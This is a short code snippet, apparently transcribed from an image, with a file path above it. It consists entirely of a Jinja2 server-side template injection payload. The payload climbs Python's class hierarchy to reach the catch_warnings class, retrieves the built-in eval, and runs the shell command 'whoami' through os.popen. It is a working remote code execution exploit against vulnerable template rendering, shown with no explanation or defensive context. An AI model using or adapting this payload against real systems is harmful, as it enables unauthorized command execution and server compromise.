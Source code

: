 {% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("whoami").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
